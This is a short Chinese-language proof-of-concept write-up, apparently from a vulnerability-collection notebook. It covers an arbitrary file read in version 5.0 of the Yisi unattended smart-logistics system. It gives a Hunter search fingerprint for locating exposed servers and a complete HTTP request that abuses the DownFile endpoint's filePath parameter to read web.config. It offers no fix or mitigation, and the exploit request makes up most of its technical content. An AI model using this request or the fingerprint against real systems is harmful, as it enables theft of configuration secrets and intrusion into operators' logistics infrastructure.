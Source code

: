 # 易思智能物流无人值守系统downfile文件读取漏洞

# 一、漏洞简介
易思无人值守智能物流系统是一款集成了人工智能、机器人技术和物联网技术的创新产品。它能够自主完成货物存储、检索、分拣、装载以及配送等物流作业，帮助企业实现无人值守的智能物流运营，提高效率、降低成本，为现代物流行业带来新的发展机遇易思智能物流无人值守系统存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息。

# 二、影响版本
+ 易思智能物流无人值守系统5.0

# 三、资产测绘
+ hunter`web.body=="易思无人值守智能物流"`
+ 登录页面

![1693024220415-3267a1b1-e688-4081-8abc-9bc7ee3c98f5.png](./img/zHmIGN6ZM2to5xhJ/1693024220415-3267a1b1-e688-4081-8abc-9bc7ee3c98f5-647498.png)

# 四、漏洞复现
```plain
GET /PublicInfoManage/Upload/DownFile?filePath=web.config  HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=c5z5wepqulqppvdagvif5dlv
Upgrade-Insecure-Requests: 1
```

![1700135803485-90ab3f35-bbdd-4c91-bf00-5e9736ac7ecb.png](./img/zHmIGN6ZM2to5xhJ/1700135803485-90ab3f35-bbdd-4c91-bf00-5e9736ac7ecb-494541.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yd8bodau0wlc1qrf>